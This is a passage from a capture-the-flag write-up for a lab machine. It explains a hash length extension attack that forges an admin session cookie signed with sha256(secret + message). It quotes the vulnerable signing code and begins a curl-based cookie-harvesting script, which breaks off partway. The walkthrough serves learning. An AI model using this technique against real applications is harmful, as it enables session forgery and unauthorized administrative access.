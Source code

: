 ```
53: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93
54: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc932
55: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc9328
56: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285
57: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c
58: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2
59: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c29
60: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c297
61: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971
62: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c29711
63: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c297110
64: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105
```

Sweet.

### Hash Length Extension Attack

Too bad I could not crack the hash to recover the password. However, we can replay a session to gain access as `admin`. According to the source, the session is encoded as a cookie in this format.

```python
def create_cookie(session):
    cookie_sig = sign(session)
    return b64encode(session) + b'.' + b64encode(cookie_sig)
```

The part before the dot is the session and the part after the dot is the signature. The session is no more than the the key-value pair of `user=admin;secret=f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105;`. The signature is the SHA256 hash of a random secret between 8 and 15 characters, concatenated with the session.

According to [Wikipedia](https://en.wikipedia.org/wiki/Length_extension_attack),

> In cryptography and computer security, a **length extension attack** is a type of attack where an attacker can use **Hash**(_message1_) and the length of _message1_ to calculate **Hash**(_message1_ ‖ _message2_) for an attacker-controlled _message2_, without needing to know the content of _message1_.

Check out the `sign` function.

```python
def sign(msg):
	""" Sign message with secret key """
	return sha256(SECRET + msg).digest()
```

Looks like we have all the known variables to launch this attack to get the signature. Armed with this insight, I wrote a simple script that'll generate all valid cookies for the random secret between 8 and 15 characters. The main driver doing all the heavy lifting for this script is [`hash_extender`](https://github.com/iagox86/hash_extender).

<div class="filename"><span>get_cookie.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.195
PORT=80
LEN=$1

COOKIE=$(curl -i \
              -s \
              -d "username=guest&password=guest" \
              http://$HOST:$PORT/postlogin \
         | grep -E 'Set-Cookie' \
         | sed 's/Set-Cookie: //' \
         | cut -d';' -f1 \
         | sed 's/auth=//')
```